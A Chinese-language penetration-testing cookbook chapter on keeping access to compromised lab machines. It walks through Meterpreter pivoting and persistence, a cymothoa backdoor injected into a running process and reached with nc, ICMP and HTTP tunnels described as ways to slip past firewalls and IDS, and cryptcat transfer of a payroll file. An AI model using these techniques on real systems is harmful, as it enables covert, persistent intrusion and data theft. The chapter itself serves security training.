# 第十章：维持访问

在本章中，我们将讨论以下主题：

+   Pivoting 和扩展对网络的访问

+   使用持久性来保持系统访问权限

+   使用 cymothoa 创建 Linux 后门

+   使用 pingtunnel 进行协议欺骗

+   使用 httptunnel 进行协议欺骗

+   使用 cryptcat 隐藏通信

# 介绍

本章中，我们将探索使用多种方法来保持访问权限。为了获得最佳结果，应该使用多台主机和多种方法。我们还将讨论如何掩盖我们的痕迹，以便更容易隐藏我们的活动。

# Pivoting 和扩展对网络的访问

在这个配方中，我们将利用一台主机作为突破口来利用其他主机。

虽然这个配方听起来可能与本章的主题不太相关，但保持对目标网络的访问最好的方法之一是通过利用更多的主机作为通信渠道。如果一个主机被发现，您可以通过其他方式访问其他主机。

# 准备中

让我们确保以下前提条件：

+   您的 Kali Linux 虚拟机已启动，并且您已经以 root 身份登录。

+   您的 Windows XP 虚拟机已在主机专用网络上启动。

# 如何实现...

完成这个配方时，我们将执行以下步骤：

1.  在我们开始之前，请验证您的机器的 IP 地址。

1.  我们将从已经被利用的 Armitage 机器开始。

我们将从 第七章，*特权提升*配方 *远程绕过 Windows UAC* 中继续，如果您需要帮助来开始的话！ Armitage - 主屏幕

1.  右键点击被利用的 Windows XP 机器，选择 Meterpreter | Pivoting | Setup：

Armitage - 主屏幕

1.  在对话框中选择“添加 Pivot”：

Armitage - 添加 Pivot 对话框

1.  成功后，您将看到一个添加路由的对话框。点击“确定”：

Armitage - Pivot 成功对话框

1.  现在，从 `msf >` 提示符下输入 `route` 并按 *Enter*，您将看到我们新添加的到该子网主机的路由：

Armitage - 主屏幕 如果这是通过防火墙或其他任何安全边界被攻陷的主机，我现在将能够从 Metasploit 对该子网上的其他主机发起攻击。

# 使用持久性来保持系统访问权限

在这个配方中，我们将使用持久性来确保在重启后仍然能够访问系统。

# 准备中

让我们确保以下前提条件：

+   您的 Kali Linux 虚拟机已启动，并且您已经以 root 身份登录。

+   您的 Windows XP 虚拟机已在主机专用网络上启动。

# 如何实现...

在这个配方中，我们将使用持久性方法来保持系统的访问权限：

1.  在我们开始之前，请验证您的机器的 IP 地址。

1.  我们将从 Armitage 中一个已经被利用的机器开始，确保它具有提升的权限。

如果你需要帮助来开始，可以继续使用前面的操作。如果你没有提升权限，请在继续之前提升权限。如果你使用的是 XP，可以尝试使用 `ms15_051_client_copy_image`。Armitage - 主屏幕

1.  右键点击被利用的主机，选择 Meterpreter | Access | Persist：

Armitage - 主屏幕

1.  滚动查看持久性屏幕上的选项，确保你的 LHOST 和其他选项正确，同时记下 LPORT，然后点击启动：

Armitage - 持久性对话框

1.  现在你将看到对主机的攻击启动。一旦完成，你将看到以下内容：

Armitage - 主屏幕

1.  通过右键点击主机并选择 Meterpreter | Kill 来结束所有与主机相关的 Meterpreter 任务。对每个会话执行此操作。同时，关闭底部的所有窗口，保留控制台窗口：

Armitage - 主屏幕

1.  让我们查看我们的任务，从控制台 `msf >` 提示符，输入 `jobs` 并按 *Enter*：

Armitage - 主屏幕

1.  结束掉任何与在 *步骤 4* 中记录的 LPORT 无关的任务。我的情况下，我将通过输入 `kill 1` 来结束任务 1，然后按 *Enter*：

Armitage - 控制台窗口

1.  现在，关闭 Windows XP 虚拟机，等待一两分钟，然后重新启动并以相同用户登录。

1.  现在你将看到 Windows 虚拟机已经重新连接，我们有一个新的 meterpreter 会话可以使用：

Armitage - 主屏幕

# 使用 cymothoa 创建 Linux 后门

在本操作中，我们将使用 cymothoa 通过后门保持对 Linux 系统的访问。

# 准备开始

让我们确保满足以下先决条件：

+   你的 Kali Linux 虚拟机已经启动，并且你已作为 root 用户登录

+   你的 Metasploitable 虚拟机已经在主机专用网络上启动

# 如何操作...

为了在 Linux 中创建后门，我们将使用以下操作：

1.  在我们开始之前，请验证你的机器的 IP 地址。

1.  在这个案例中，我们将从一个已经被利用的机器开始；我们将通过 SSH 访问 Metasploitable 机器来简化这个过程。

如果你愿意，你可以从第七章继续这个操作，*权限提升*。

1.  在你的 Kali 机器上启动 Armitage。

1.  从 Armitage 中，如果 Metasploitable 主机尚未添加，我们来添加它。对于本操作，我的 Metasploitable 机器是 `192.168.56.101`。如果需要，可以扫描、使用 nmap 并对 Metasploitable 设备进行攻击。

请参见第四章，*在目标中寻找漏洞*，以了解如何使用 Armitage。

1.  右键点击 Metasploitable 机器，选择登录 | ssh：

Armitage 主屏幕

1.  输入 Metasploitable 机器的凭证 `msfadmin`/`msfadmin` 并选择启动：

Armitage 凭证对话框

1.  由于我们已经获得了访问权限，机器图标将发生变化，显示它已被攻破。从这里，右键点击 Metasploitable 机器，选择 shell | interact。

1.  打开 Firefox 并将以下文件下载到 Kali 机器：[`sourceforge.net/projects/cymothoa/files/cymothoa-1-beta/cymothoa-1-beta.tar.gz/download`](https://sourceforge.net/projects/cymothoa/files/cymothoa-1-beta/cymothoa-1-beta.tar.gz/download)。

Firefox 保存对话框

1.  从 Armitage 的 shell 屏幕，右键点击并选择上传：

Armitage shell 屏幕

1.  浏览并选择 `cymothoa-1-beta.tar.gz` 文件，将其上传到 Metasploitable 虚拟机：

Armitage 文件上传对话框

1.  在 Armitage 的 shell 屏幕中，输入以下命令：

```
tar xvfz cymothoa-1-beta.tar.gz <enter>
chmod +x cymothoa-1-beta -R <enter>
cd cymothoa-1-beta <enter>
make <enter>
./cymothoa <enter>
```

Armitage shell 屏幕

1.  让我们通过输入以下命令来寻找一个进程进行附加：

```
ps -aux
```

Armitage 全屏

1.  现在让我们尝试附加到我们看到的一个进程——记下一个 PID 值——shell 进程是一个很好的尝试。在这种情况下，我们将使用 PID `4720`，并将在端口 `4000` 上打开一个反向连接的洞口：

```
./cymothoa -p 4720 -s 1 -y 4000
```

Armitage 全屏你可能需要尝试几个不同的进程 ID，直到成功感染。如果最坏的情况发生了，请以 `msfadmin` 用户身份登录 Metasploitable 虚拟机，然后附加到该 bash 进程。

1.  现在，从你的 Kali Linux 机器打开一个终端会话，并输入以下命令：

```
cd <enter>
nc 192.168.56.101 4000 <enter>
ls <enter>
whoami <enter>
```

Kali 终端窗口请注意，你不会在会话中收到任何终端提示，但你将以拥有**进程 ID**（**PID**）的用户身份输入命令。因此，如果可能的话，请使用如 root 用户这样的高权限来处理 PID。

# 使用 pingtunnel 进行协议欺骗

在本教程中，我们将使用 pingtunnel 在两台主机之间进行通信隧道。由于大多数时候，ICMP 通信通过防火墙被允许，且很少被大多数公司检查是否存在恶意流量，因此它使得建立一个几乎不会被察觉的连接变得容易。

# 准备就绪

让我们确保满足以下先决条件：

+   你的 Kali Linux 虚拟机已开启，并且你已以 root 用户登录。

+   你的 Ubuntu 虚拟机已启动并且你已登录，处于 NAT 网络中，并且有互联网连接。

# 如何操作...

要通过 pingtunnel 隧道通信，我们将按照这个过程进行：

1.  验证 Kali 虚拟机和 Ubuntu 虚拟机的 IP 地址。就我而言，我的 Kali 主机的 IP 是`10.0.2.5`，Ubuntu 是`10.0.2.6`。

1.  首先，我们将在当前登录的 Ubuntu 虚拟机上开始，接着通过在控制台输入以下命令来提升权限至 root：

```
sudo su <enter>
```

1.  现在我们将在 Ubuntu 虚拟机上安装`ptunnel`，使用以下命令：

```
apt install ptunnel <enter>
```

Ubuntu 控制台

1.  现在我们开始在 Ubuntu 机器上启动隧道：

```
ptunnel <enter>
```

1.  切换到 Kali 机器，打开一个终端窗口并输入以下命令：

```
ptunnel -p 10.0.2.6 -lp -8022 -da localhost -dp 22 <enter>
```

1.  在 Kali 虚拟机上打开第二个终端窗口，输入以下命令，将用户`leonard`替换为 Ubuntu 机器上的有效用户。

在之前的实验中，我们在 Ubuntu 机器上设置了一个名为`Leonard`的用户，密码为 penny。

```
ssh leonard@10.0.2.5 -p 8022 <enter>
```

Kali 终端窗口 - SSH 连接

1.  让我们看看我们在 Kali 虚拟机上启动`ptunnel`的代理窗口，你将看到它注册了传入的连接：

Kali 终端窗口 - ptunnel

1.  最后，让我们看看 Ubuntu 虚拟机上`ptunnel`代理的情况：

Ubuntu 终端 - ptunnel 在两台机器之间，如果你正在使用 tcpdump 监控流量，你将只看到 ICMP 流量。这是绕过防火墙和 IPS/IDS 设备而不被检测到的绝佳方法。你还可以在被攻破的主机上使用它，将其作为跳板攻击其他计算机。

# 使用 httptunnel 进行协议欺骗

在本教程中，我们将使用`httptunnel`在两台主机之间隧道通信。由于大多数公司允许 HTTP 通信通过防火墙，并且通常不进行严格检查，这使得建立一个不易被察觉的连接变得容易。

# 准备就绪

让我们确保满足以下先决条件：

+   确保 Kali Linux 虚拟机已启动并且你已登录为 root 用户。

+   你的 Ubuntu 虚拟机已启动并且你已登录，处于 NAT 网络中，并且有互联网连接。

# 如何操作...

要使用`httptunnel`创建隧道，我们将按照以下过程进行：

1.  验证 Kali 虚拟机和 Ubuntu 虚拟机的 IP 地址。就我而言，我的 Kali 主机的 IP 是`10.0.2.5`，Ubuntu 是`10.0.2.6`。

1.  首先，我们将在当前登录的 Ubuntu 虚拟机上开始，并希望通过在控制台输入以下命令来提升权限至 root：

```
sudo su <enter>
```

1.  现在我们将在 Ubuntu 虚拟机上安装`httptunnel`，并使用以下命令为其准备好运行：

```
apt install httptunnel <enter>
service apache2 stop <enter>
hts -F localhost:22 80 <enter>
```

1.  切换到 Kali 虚拟机，我们将安装并设置客户端，然后通过输入以下命令连接：

在之前的实验中，我们已经在 Ubuntu 主机上设置了一个用户名为`Leonard`，密码为 penny 的账户。

```
apt install httptunnel <enter>
htc -F 8022 10.0.2.6:80
ssh leonard@10.0.2.5 -p 8022
```

Kali 终端窗口你会注意到我们现在已经登录到远程的 Ubuntu 主机。如果你在查看这个流量，你会看到所有的流量看起来像正常的 HTTP 流量。这是另一种绕过防火墙和 IPS/IDS 设备的有用方法，以保持你对网络的访问。

# 使用 cryptcat 隐藏通信

在这个示例中，我们将使用`cryptcat`在两台主机之间传输文件。尽管我们在这个示例中使用`cryptcat`传输文件，但它可以用于各种用途，例如安全聊天、shell 访问、端口扫描等。

# 准备就绪

让我们确保以下前提条件：

+   你的 Kali Linux 虚拟机已经启动，你已作为 root 用户登录

+   你的 Ubuntu 虚拟机已经启动，并且你已经登录，处于 NAT 网络中并有互联网连接

# 如何操作...

为了使用`cryptcat`创建隧道以隐藏通信，我们将按照以下步骤操作：

1.  验证你的 Kali 虚拟机和 Ubuntu 虚拟机的 IP 地址。根据我的需要，我的 Kali 主机是`10.0.2.5`，Ubuntu 主机是`10.0.2.6`。

1.  首先我们将从当前登录的 Ubuntu 虚拟机开始，并通过在控制台中输入以下命令来将自己提升为 root 用户：

```
sudo su <enter>
```

1.  接下来，我们必须在 Ubuntu 虚拟机上安装`cryptcat`，输入以下命令：

```
apt install cryptcat
```

1.  从 Ubuntu 机器上，我们将输入以下命令来创建一个有趣的文件：

```
cd <enter>
touch payroll.txt <enter>
echo "john makes lots of money" >> payroll.txt <enter>
cat payroll.txt <enter>
```

Ubuntu 终端窗口

1.  准备通过`cryptcat`传输文件，输入以下命令：

```
cryptcat -k password -v -l -p 8443 < payroll.txt <enter>
```

1.  切换到 Kali 主机，让我们通过打开终端窗口并输入以下命令来检索并验证文件：

```
cryptcat -k password -v 10.0.2.6 8443 >> payroll.txt <enter>
<ctrl>-c
cat payroll.txt
```

Kali 终端窗口

1.  让我们看看 Ubuntu 终端显示了什么：

Ubuntu 终端

# 还有更多...

`cryptcat`实际上与 netcat 相同，唯一不同的是它允许通过明文通信进行加密。要获取更多可用命令的信息，请参考**netcat**（**nc**）页面。使用`cryptcat`时，它只需添加一个额外的命令行选项`-k <password>`，其中 password 是用于加盐密码并创建安全通信的密钥。

请查阅 – [`www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf`](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)。
